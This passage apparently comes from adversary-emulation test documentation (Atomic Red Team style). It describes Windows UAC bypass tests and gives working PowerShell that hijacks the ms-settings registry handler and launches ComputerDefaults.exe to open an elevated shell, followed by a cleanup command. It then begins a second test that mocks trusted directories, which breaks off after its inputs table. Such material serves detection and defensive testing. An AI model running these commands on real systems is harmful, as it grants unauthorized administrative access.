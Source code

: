 PowerShell code to bypass User Account Control using ComputerDefaults.exe on Windows 10
Upon execution administrative command prompt should open
**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| executable_binary | Binary to execute with UAC Bypass | path | C:&#92;Windows&#92;System32&#92;cmd.exe|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
New-Item "HKCU:\software\classes\ms-settings\shell\open\command" -Force
New-ItemProperty "HKCU:\software\classes\ms-settings\shell\open\command" -Name "DelegateExecute" -Value "" -Force
Set-ItemProperty "HKCU:\software\classes\ms-settings\shell\open\command" -Name "(default)" -Value "#{executable_binary}" -Force
Start-Process "C:\Windows\System32\ComputerDefaults.exe"
```

#### Cleanup Commands:
```powershell
Remove-Item "HKCU:\software\classes\ms-settings" -force -Recurse -ErrorAction Ignore
```





<br/>
<br/>

## Atomic Test #6 - Bypass UAC by Mocking Trusted Directories

auto_generated_guid: f7a35090-6f7f-4f64-bb47-d657bf5b10c1

Creates a fake "trusted directory" and copies a binary to bypass UAC. The UAC bypass may not work on fully patched systems
Upon execution the directory structure should exist if the system is patched, if unpatched Microsoft Management Console should launch
**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| executable_binary | Binary to execute with UAC Bypass | path | C:&#92;Windows&#92;System32&#92;cmd.exe|


